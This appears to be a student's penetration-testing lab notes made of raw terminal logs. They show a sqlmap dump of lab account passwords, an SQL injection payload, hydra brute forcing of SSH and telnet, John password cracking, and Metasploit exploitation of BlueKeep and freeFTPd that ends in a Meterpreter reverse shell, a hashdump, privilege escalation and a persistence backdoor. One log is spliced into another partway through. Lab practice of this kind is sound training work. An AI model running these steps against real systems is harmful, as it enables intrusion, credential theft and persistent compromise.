| 34 | vitae, posuere at, velit. Cras lorem lorem, luctus ut, pellentesque eget, dictum placerat, augue. Sed molestie. Sed id risus quis diam luctus lobortis. Class aptent taciti sociosqu ad litora torquent per conubia nostra, per inceptos hymenaeos. Mauris ut quam vel sapien imperdiet ornare. In faucibus. Morbi vehicula. Pellentesque tincidunt tempus risus. Donec egestas. Duis ac arcu. Nunc mauris. Morbi non | sem ut cursus luctus, ipsum                          | 2013-11-01 06:08:56 | 6      |
| 35 | Cras sed leo. Cras vehicula aliquet libero. Integer in magna. Phasellus dolor elit, pellentesque a, facilisis non, bibendum sed, est. Nunc laoreet lectus quis massa. Mauris vestibulum, neque sed dictum eleifend, nunc risus varius orci, in consequat enim diam vel arcu. Curabitur ut odio                                                                                                                        | ultrices, mauris ipsum porta                         | 2014-07-11 18:42:16 | 6      |
| 36 | Aenean eget magna. Suspendisse tristique neque venenatis lacus. Etiam bibendum fermentum metus. Aenean sed pede nec ante blandit viverra. Donec tempus, lorem fringilla ornare placerat,                                                                                                                                                                                                                              | natoque penatibus et magnis dis                      | 2013-10-23 22:05:16 | 4      |
| 37 | Mauris vel turpis. Aliquam adipiscing lobortis risus. In mi pede, nonummy ut, molestie in, tempus eu, ligula. Aenean euismod mauris eu elit. Nulla facilisi. Sed neque. Sed eget lacus. Mauris non dui nec urna suscipit nonummy. Fusce fermentum fermentum arcu. Vestibulum ante ipsum primis in faucibus orci luctus et ultrices posuere cubilia                                                                    | Mauris non dui nec urna suscipit                     | 2014-01-03 19:57:40 | 4      |
| 38 | viverra. Maecenas iaculis aliquet diam. Sed diam lorem, auctor quis, tristique ac, eleifend vitae, erat. Vivamus nisi. Mauris nulla. Integer urna. Vivamus molestie dapibus ligula. Aliquam erat volutpat. Nulla dignissim. Maecenas ornare egestas ligula.                                                                                                                                                           | diam luctus lobortis. Class aptent taciti            | 2013-09-26 10:14:11 | 2      |
| 39 | orci tincidunt adipiscing. Mauris molestie pharetra nibh. Aliquam ornare, libero at auctor ullamcorper, nisl arcu iaculis enim, sit amet ornare lectus justo eu arcu. Morbi sit amet massa. Quisque porttitor eros nec tellus. Nunc lectus pede, ultrices a, auctor non,                                                                                                                                              | dapibus quam quis diam. Pellentesque habitant        | 2014-04-03 13:32:40 | 3      |
| 40 | mus. Proin vel nisl. Quisque fringilla euismod enim. Etiam gravida molestie arcu. Sed eu nibh vulputate mauris sagittis placerat. Cras dictum ultricies ligula. Nullam enim. Sed nulla ante, iaculis nec, eleifend non,                                                                                                                                                                                               | Aliquam gravida                                      | 2014-08-14 21:36:19 | 3      |
+----+-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+------------------------------------------------------+---------------------+--------+

[05:10:50] [INFO] table 'awd.news' dumped to CSV file '/home/kali/.local/share/sqlmap/output/10.124.211.96/dump/awd/news.csv'
[05:10:50] [INFO] fetching columns for table 'accounts' in database 'awd'
[05:10:51] [INFO] fetching entries for table 'accounts' in database 'awd'
Database: awd
Table: accounts
[11 entries]
+----+-----------------------------------------------------+-------------+-------------------+
| id | email                                               | password    | displayname       |
+----+-----------------------------------------------------+-------------+-------------------+
| 1  | admin@awdmgmt.labs                                  | S3cr3tBOFH  | Admin             |
| 2  | porta.elit.a@adipiscingMaurismolestie.net           | VUH74DYX6DO | Mallory Reed      |
| 3  | ipsum.leo.elementum@Phasellusfermentumconvallis.org | GUC97VHY8HK | Katell Stewart    |
| 4  | mauris.sit@torquent.edu                             | LPW27DSG6QE | Gemma Beck        |
| 5  | Praesent.interdum@ametrisus.org                     | TWS34ORL6GX | Fuller Casey      |
| 6  | Quisque.libero@Cum.ca                               | OSQ80TYZ6YW | Hu Miles          |
| 7  | tincidunt.Donec.vitae@tempuseuligula.com            | HOV82DUI9TF | Lacey Hawkins     |
| 8  | dignissim.Maecenas@estcongue.org                    | TEO38KNA2UZ | Kaden Singleton   |
| 9  | dictum@tempusrisusDonec.ca                          | LKK51JAO3PJ | Britanney Guzman  |
| 10 | blandit.viverra.Donec@Suspendisse.net               | PTS90MHF9XA | Aspen Byers       |
| 11 | ligula@mollisDuis.ca                                | PLN49WZU6IB | Alexandra Cabrera |
+----+-----------------------------------------------------+-------------+-------------------+

[05:10:52] [INFO] table 'awd.accounts' dumped to CSV file '/home/kali/.local/share/sqlmap/output/10.124.211.96/dump/awd/accounts.csv'
[05:10:52] [INFO] you can find results of scanning in multiple targets mode inside the CSV file '/home/kali/.local/share/sqlmap/output/results-08082021_0457am.csv'
[05:10:52] [WARNING] your sqlmap version is outdated

[*] ending @ 05:10:52 /2021-08-08/
```


### Had to refer to solutions for payload
`' or 1=1; -- -`

## Bruteforcing and Password Cracking

```
└─# nmap -sn 192.168.99.100/24
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-05 08:36 +08             Nmap scan report for 192.168.99.22                                          Host is up (0.27s latency).                                                 MAC Address: 00:50:56:A0:F4:29 (VMware)                                     Nmap scan report for 192.168.99.100
Host is up.                                                                 Nmap done: 256 IP addresses (2 hosts up) scanned in 9.92 seconds
┌──(root💀DESKTOP-61F9HO2)-[/mnt/c/Users/Chan/Documents/Terence Stuff/Github/Programming-Crappy-Boilerplates/General Applications/Mobile/Native Android/gradle-build]                                                               └─# nmap -sV 192.168.99.22                                                  Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-05 08:41 +08             Nmap scan report for 192.168.99.22
Host is up (0.43s latency).                                                 Not shown: 998 closed ports                                                 PORT   STATE SERVICE VERSION                                                22/tcp open  ssh     OpenSSH 6.0p1 Debian 4+deb7u2 (protocol 2.0)           23/tcp open  telnet  Linux telnetd                                          MAC Address: 00:50:56:A0:F4:29 (VMware)                                     Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel                                                                                                 Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .                                                          Nmap done: 1 IP address (1 host up) scanned in 6.46 seconds
```

Password Cracking

```
# hydra -L /tmp/minimal.usr -P /usr/share/seclists/Passwords/rockyou-15.txt 192.168.99.22 ssh                                                         Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).                                                                                                 Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-08-05 09:08:03                                                                      [WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4                                   [DATA] max 16 tasks per 1 server, overall 16 tasks, 8217 login tries (l:33/p:249), ~514 tries per task                                                  [DATA] attacking ssh://192.168.99.22:22/                                    [STATUS] 156.00 tries/min, 156 tries in 00:01h, 8062 to do in 00:52h, 16 active                                                                         [STATUS] 128.33 tries/min, 385 tries in 00:03h, 7833 to do in 01:02h, 16 active                                                                         [22][ssh] host: 192.168.99.22   login: root   password: 123abc
```

Ssh:
Login: root , password: 123abc


```
[23][telnet] host: 192.168.99.22   login: sysadmin   password: secret       
[23][telnet] host: 192.168.99.22   login: guest   password: 654321
```

Login

```
root@192.168.99.22's password:                                              Linux telnetserver 3.2.0-4-amd64 #1 SMP Debian 3.2.60-1+deb7u3 x86_64
                                                                            The programs included with the Debian GNU/Linux system are free software;   the exact distribution terms for each program are described in the          individual files in /usr/share/doc/*/copyright.                                                                                                         Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent           permitted by applicable law.                                                Last login: Thu Feb 12 03:39:38 2015 from 192.168.99.16                     root@telnetserver:~# ls                                                     root@telnetserver:~# ls /home                                               abuse         bryan     hostmaster    majordomo  pierre      someone        adam          bugs      info          martin     postfix     spam           admin         chris     james         matt       postmaster  stefan         adrian        craig     jamie         maxim      proberts    stephen        akpm          dan       jason         michael    qmailr      steve          alex          daniel    jeff          mike       research    support        andreas       dave      jim           nanog      rick        sven           andrew        derek     jobs          nate       risks       tech           andy          dev       joe           nathan     rob         test           ben           doug      jonathan      nessus     robert      tim            blaisorblade  elsuser   jose          oliver     roman       tom            bob           eric      josh          orion      sales       torvalds       brandon       erik      karl          password   sam         user           brett         feedback  kris          paul       scott       webmaster      brian         gary      larry         peter      Security                   bruce         greg      linux-kernel  pgo        snort                      root@telnetserver:~#
```

John cracking

```
└─# cat ~/.john/john.pot                                                    $6$6vAGLPss$5Ciwdq3qSTSTfgtrqZ.cY9SI5AtZwHN/MBqIEIhCOJcmXKDik7Je47JvyjeAng01AcfsjEMatE4tzusDIcEwU0:654321                                               
┌──(root💀DESKTOP-61F9HO2)-[/tmp]                                           └─# # password for guest
```

## Metasploit

```
┌──(kali㉿kali)-[/media/sf_Stuff]
└─$ nmap -sn 192.168.99.100/24                                                                                                                                      2 ⨯
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-07 21:21 EDT
Nmap scan report for 192.168.99.12
Host is up (0.27s latency).
Nmap scan report for 192.168.99.100
Host is up (0.000062s latency).
Nmap done: 256 IP addresses (2 hosts up) scanned in 11.66 seconds
                                                                                                                                                                        
┌──(kali㉿kali)-[/media/sf_Stuff]
└─$ nmap -sV 192.168.99.12    
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-07 21:22 EDT
Nmap scan report for 192.168.99.12
Host is up (0.25s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           FreeFTPd 1.0
22/tcp   open  ssh           WeOnlyDo sshd 2.1.8.98 (protocol 2.0)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Microsoft Windows XP microsoft-ds
3389/tcp open  ms-wbt-server Microsoft Terminal Services
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.24 seconds     
```

```
msf6 > search CVE-2019-0708

Matching Modules
================

   #  Name                                            Disclosure Date  Rank    Check  Description
   -  ----                                            ---------------  ----    -----  -----------
   0  auxiliary/scanner/rdp/cve_2019_0708_bluekeep    2019-05-14       normal  Yes    CVE-2019-0708 BlueKeep Microsoft Remote Desktop RCE Check
   1  exploit/windows/rdp/cve_2019_0708_bluekeep_rce  2019-05-14       manual  Yes    CVE-2019-0708 BlueKeep RDP Remote Windows Kernel Use After Free


Interact with a module by name or index. For example info 1, use 1 or use exploit/windows/rdp/cve_2019_0708_bluekeep_rce

msf6 > use 1
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > show options

Module options (exploit/windows/rdp/cve_2019_0708_bluekeep_rce):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   RDP_CLIENT_IP    192.168.0.100    yes       The client IPv4 address to report during connect
   RDP_CLIENT_NAME  ethdev           no        The client computer name to report during connect, UNSET = random
   RDP_DOMAIN                        no        The client domain name to report during connect
   RDP_USER                          no        The username to report during connect, UNSET = random
   RHOSTS                            yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT            3389             yes       The target port (TCP)


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.0.2.15        yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic targeting via fingerprinting


msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set RHOSTS 192.168.99.12
RHOSTS => 192.168.99.12
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set LHOST 192.168.99.100
LHOST => 192.168.99.100
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > exploit

[*] Started reverse TCP handler on 192.168.99.100:4444 
[*] 192.168.99.12:3389 - Executing automatic check (disable AutoCheck to override)
[*] 192.168.99.12:3389 - Using auxiliary/scanner/rdp/cve_2019_0708_bluekeep as check
[+] 192.168.99.12:3389    - The target is vulnerable. The target attempted cleanup of the incorrectly-bound MS_T120 channel.
[*] 192.168.99.12:3389    - Scanned 1 of 1 hosts (100% complete)
[+] 192.168.99.12:3389 - The target is vulnerable. The target attempted cleanup of the incorrectly-bound MS_T120 channel.
[-] 192.168.99.12:3389 - Exploit aborted due to failure: bad-config: Set the most appropriate target manually. If you are targeting 2008, make sure fDisableCam=0 !
[*] Exploit completed, but no session was created.
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set RDP_CLIENT_IP 192.168.99.100
RDP_CLIENT_IP => 192.168.99.100
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > exploit

[*] Started reverse TCP handler on 192.168.99.100:4444 
[*] 192.168.99.12:3389 - Executing automatic check (disable AutoCheck to override)
[*] 192.168.99.12:3389 - Using auxiliary/scanner/rdp/cve_2019_0708_bluekeep as check
[+] 192.168.99.12:3389    - The target is vulnerable. The target attempted cleanup of the incorrectly-bound MS_T120 channel.
[*] 192.168.99.12:3389    - Scanned 1 of 1 hosts (100% complete)
[+] 192.168.99.12:3389 - The target is vulnerable. The target attempted cleanup of the incorrectly-bound MS_T120 channel.
[-] 192.168.99.12:3389 - Exploit aborted due to failure: bad-config: Set the most appropriate target manually. If you are targeting 2008, make sure fDisableCam=0 !
[*] Exploit completed, but no session was created.
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Automatic targeting via fingerprinting
   1   Windows 7 SP1 / 2008 R2 (6.1.7601 x64)
   2   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - Virtualbox 6)
   3   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - VMWare 14)
   4   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - VMWare 15)
   5   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - VMWare 15.1)
   6   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - Hyper-V)
   7   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - AWS)
   8   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - QEMU/KVM)


msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set target 1
target => 1
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > exploit

[*] Started reverse TCP handler on 192.168.99.100:4444 
[*] 192.168.99.12:3389 - Executing automatic check (disable AutoCheck to override)
[*] 192.168.99.12:3389 - Using auxiliary/scanner/rdp/cve_2019_0708_bluekeep as check
[+] 192.168.99.12:3389    - The target is vulnerable. The target attempted cleanup of the incorrectly-bound MS_T120 channel.
[*] 192.168.99.12:3389    - Scanned 1 of 1 hosts (100% complete)
[+] 192.168.99.12:3389 - The target is vulnerable. The target attempted cleanup of the incorrectly-bound MS_T120 channel.

[-] 192.168.99.12:3389 - Exploit failed: Msf::Exploit::Remote::RDP::RdpCommunicationError Msf::Exploit::Remote::RDP::RdpCommunicationError
[*] Exploit completed, but no session was created.
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > 
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set target 3
target => 3
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > exploit

[*] Started reverse TCP handler on 192.168.99.100:4444 
[*] 192.168.99.12:3389 - Executing automatic check (disable AutoCheck to override)
[*] 192.168.99.12:3389 - Using auxiliary/scanner/rdp/cve_2019_0708_bluekeep as check
[+] 192.168.99.12:3389    - The target is vulnerable. The target attempted cleanup of the incorrectly-bound MS_T120 channel.
[*] 192.168.99.12:3389    - Scanned 1 of 1 hosts (100% complete)
[+] 192.168.99.12:3389 - The target is vulnerable. The target attempted cleanup of the incorrectly-bound MS_T120 channel.

[-] 192.168.99.12:3389 - Exploit failed: Msf::Exploit::Remote::RDP::RdpCommunicationError Msf::Exploit::Remote::RDP::RdpCommunicationError
[*] Exploit completed, but no session was created.

```

Had to refer to solutions on what service to exploit (since nessus didn't give that service)
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > search freeftpd
```
Matching Modules
================

   #  Name                                       Disclosure Date  Rank     Check  Description
   -  ----                                       ---------------  ----     -----  -----------
   0  exploit/windows/ftp/freeftpd_pass          2013-08-20       normal   Yes    freeFTPd PASS Command Buffer Overflow
   1  exploit/windows/ftp/freeftpd_user          2005-11-16       average  Yes    freeFTPd 1.0 Username Overflow
   2  exploit/windows/ssh/freeftpd_key_exchange  2006-05-12       average  No     FreeFTPd 1.0.10 Key Exchange Algorithm String Buffer Overflow


Interact with a module by name or index. For example info 2, use 2 or use exploit/windows/ssh/freeftpd_key_exchange

msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/ftp/freeftpd_pass) > show options

Module options (exploit/windows/ftp/freeftpd_pass):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   FTPUSER  anonymous        yes       The username to authenticate with
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    21               yes       The target port (TCP)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.0.2.15        yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   freeFTPd 1.0.10 and below on Windows Desktop Version


msf6 exploit(windows/ftp/freeftpd_pass) > set RHOSTS 192.168.99.12
RHOSTS => 192.168.99.12
msf6 exploit(windows/ftp/freeftpd_pass) > set LHOST 192.168.99.100
LHOST => 192.168.99.100
msf6 exploit(windows/ftp/freeftpd_pass) > run

[*] Started reverse TCP handler on 192.168.99.100:4444 
[*] 192.168.99.12:21 - Trying target freeFTPd 1.0.10 and below on Windows Desktop Version with user anonymous...
[*] Sending stage (175174 bytes) to 192.168.99.12
[*] Meterpreter session 1 opened (192.168.99.100:4444 -> 192.168.99.12:1035) at 2021-08-08 05:34:24 -0400

meterpreter > hashdump
Administrator:500:e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c:::
eLSAdmin:1003:aad3b435b51404eeaad3b435b51404ee:87289513bddc269f9bcb24d74864beb2:::
ftp:1004:4ff1ab31fc4b0ebdaad3b435b51404ee:9865c4bdcd9578a380297c5095e6c852:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:a88f7de3e682d17fea34bd03086620b5:2b07e52daf608f50d4cd9506c5b0220d:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:9f79c84005db73e0122f424022f8dbc0:::
meterpreter > pwd
C:\WINDOWS\system32
meterpreter > search \"Congrats.txt\"
[-] You must specify a valid file glob to search for, e.g. >search -f *.doc
meterpreter > search -f \"Congrats.txt\"
No files matching your search were found.
meterpreter > search -f Congrats.txt
Found 1 result...
    c:\Documents and Settings\eLSAdmin\My Documents\Congrats.txt (64 bytes)
meterpreter > download c:\Documents and Settings\eLSAdmin\My Documents\Congrats.txt
[-] stdapi_fs_stat: Operation failed: The system cannot find the file specified.
meterpreter > download "c:\Documents and Settings\eLSAdmin\My Documents\Congrats.txt"
[*] Downloading: c:\Documents and Settings\eLSAdmin\My Documents\Congrats.txt -> /media/sf_Stuff/Congrats.txt
[*] Downloaded 64.00 B of 64.00 B (100.0%): c:\Documents and Settings\eLSAdmin\My Documents\Congrats.txt -> /media/sf_Stuff/Congrats.txt
[*] download   : c:\Documents and Settings\eLSAdmin\My Documents\Congrats.txt -> /media/sf_Stuff/Congrats.txt
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > run metsvc

[!] Meterpreter scripts are deprecated. Try exploit/windows/local/persistence.
[!] Example: run exploit/windows/local/persistence OPTION=value [...]
[*] Creating a meterpreter service on port 31337
[*] Creating a temporary installation directory C:\DOCUME~1\ftp\LOCALS~1\Temp\JloYImRkALbFfF...
[*]  >> Uploading metsrv.x86.dll...
[*]  >> Uploading metsvc-server.exe...
[*]  >> Uploading metsvc.exe...
[*] Starting the service...
         * Installing service metsvc
 * Starting service
Service metsvc successfully installed.

```

```
─$ john hash.txt 
Warning: detected hash type "LM", but the string is also recognized as "NT"
Use the "--format=NT" option to force loading these as that type instead
Using default input encoding: UTF-8
Using default target encoding: CP850
Loaded 8 password hashes with no different salts (LM [DES 128/128 SSE2])
Warning: poor OpenMP scalability for this hash type, consider --fork=2
Will run 2 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
FTP              (ftp)
Almost done: Processing the remaining buffered candidate passwords, if any.
Warning: Only 187 candidates buffered for the current salt, minimum 256 needed for performance.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
                 (SUPPORT_388945a0)
                 (Guest)
                 (eLSAdmin)
PASSWOR          (Administrator:1)
D                (Administrator:2)
Proceeding with incremental:LM_ASCII
6g 0:00:04:48 0.11% 3/3 (ETA: 2021-08-11 08:25) 0.02083g/s 28090Kp/s 28090Kc/s 56180KC/s VUNNRIO..VUNKLM1
6g 0:00:04:52 0.11% 3/3 (ETA: 2021-08-11 08:08) 0.02051g/s 28199Kp/s 28199Kc/s 56399KC/s VPJNAC9..VPJNGHB
6g 0:00:07:11 0.16% 3/3 (ETA: 2021-08-11 08:33) 0.01390g/s 28038Kp/s 28038Kc/s 56078KC/s 9PTSG0U..9PTS36B
6g 0:00:12:23 0.29% 3/3 (ETA: 2021-08-11 05:44) 0.008075g/s 29136Kp/s 29136Kc/└─# nmap -sn 192.168.99.100/24
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-12 22:44 +08
Nmap scan report for 192.168.99.162
Host is up (0.28s latency).
MAC Address: 00:50:56:8E:3C:AB (VMware)
Nmap scan report for 192.168.99.100                                         Host is up.
Nmap done: 256 IP addresses (2 hosts up) scanned in 13.43 seconds
┌──(root💀DESKTOP-61F9HO2)-[/mnt/c/Users/Chan]                              └─# nmap -sV 192.168.99.162                                                 Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-12 22:45 +08             Nmap scan report for 192.168.99.162                                         Host is up (4.4s latency).                                                  Not shown: 997 closed ports                                                 PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC                            139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows XP microsoft-ds
MAC Address: 00:50:56:8E:3C:AB (VMware)
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp
                                                                            Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .                                                          Nmap done: 1 IP address (1 host up) scanned in 23.03 seconds 58273KC/s LNKJ7MK..LNKFNRH
SYN6UOO          (HelpAssistant:2)
7g 0:00:32:51 0.89% 3/3 (ETA: 2021-08-10 19:02) 0.003551g/s 34222Kp/s 34222Kc/s 65698KC/s U..VVRS..U..YOFS

```

https://www.offensive-security.com/metasploit-unleashed/meterpreter-backdoor/
https://www.offensive-security.com/metasploit-unleashed/searching-content/
https://www.rapid7.com/db/modules/exploit/windows/local/persistence/

